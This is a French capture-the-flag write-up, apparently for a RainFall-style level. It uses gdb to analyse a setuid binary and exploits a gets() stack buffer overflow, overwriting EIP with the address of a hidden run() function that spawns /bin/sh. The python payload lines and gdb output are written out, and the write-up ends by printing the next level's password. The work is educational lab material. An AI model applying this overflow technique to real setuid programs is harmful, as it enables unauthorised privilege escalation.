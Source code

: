 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `info function`
    ```
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```
      Dump of assembler code for function main:
    [...]
      0x08048486 <+6>:    sub    esp,0x50
    [...]
      0x08048490 <+16>:   call   0x8048340 <gets@plt>
    [...]
    ```
    - Le programme alloue 80 octets (0x50) pour stocker ses variables dans la stack, puis fait un appel a gets()
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```
      Dump of assembler code for function run:
    [...]
      0x08048451 <+13>:	mov    eax,0x8048570
    [...]
      0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
      0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
      0x08048479 <+53>:	call   0x8048360 <system@plt>
    [...]
    ```
    - La fonction run met la valeur située à 0x8048570 dans eax
    - Call fwrite avec la valeur dans eax (donc la valeur à 0x8048570):
      - `x/s 0x8048570`
        ```
          0x8048570:	 "Good... Wait what?\n"
        ```
    - Call systeme avec la valeur située à 0x8048584:
      - `x/s 0x8048584`
        ```
          0x8048584:	 "/bin/sh"
        ```
## Exploit

- L'objectif va être de forcer l'appel de la fonction 'run' par 'main'.
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP. 
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `layout reg`
    - `run < /tmp/exploit`
    ```
      Starting program: /home/user/level1/level1 < /tmp/exploit

      Program received signal SIGSEGV, Segmentation fault.
      0x61616161 in ?? ()
    ```
    - Nice, on SegFault comme attendu et l'eip est réécrit avec des a:
      ```
        eip            0x61616161       0x61616161
      ```
- L' EIP étant codé sur 4 octets dans un système 32bits, on devrait pouvoir écrire l'adresse de run dans les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
      eip            0x62626262       0x62626262 
    ```
      - Parfait, l'EIP est écrasé par les 4 derniers octets
- On a vu plus haut que l'adresse de 'run' est 0x08048444, on la passe en little endian avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
      Good... Wait what?
      Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run, mais le shell est close tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input - when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
          Good... Wait what?
          whoami
          level2
          cat /home/user/level2/.pass
          53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
        ```